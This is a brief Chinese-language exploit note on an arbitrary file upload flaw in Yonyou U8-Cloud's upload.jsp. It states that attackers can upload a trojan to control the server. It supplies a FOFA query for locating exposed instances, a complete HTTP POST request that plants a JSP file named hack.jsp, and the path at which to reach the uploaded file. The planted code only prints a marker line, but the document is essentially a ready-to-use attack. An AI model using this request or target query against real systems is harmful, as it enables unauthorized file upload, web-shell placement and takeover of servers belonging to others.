 
## 用友U8-Cloud upload任意文件上传漏洞
该系统upload.jsp存在任意文件上传漏洞，攻击者可通过该漏洞上传木马，远程控制服务器

## fofa
```app="用友-U8-Cloud"```

## exp
```
POST /linux/pages/upload.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0
Connection: close
Content-Length: 31
Content-Type: application/x-www-form-urlencoded
filename: hack.jsp
Accept-Encoding: gzip

<% out.println("The website has vulnerabilities!!");%>
```
## 漏洞复现
![](https://img-blog.csdnimg.cn/img_convert/4e222417f164a3b33772bf18041feb82.png)

![](https://img-blog.csdnimg.cn/img_convert/d68273de84c541f1cb5a0ac52b469b98.png)

## 路径
http://ip:port/linux/hack.jsp


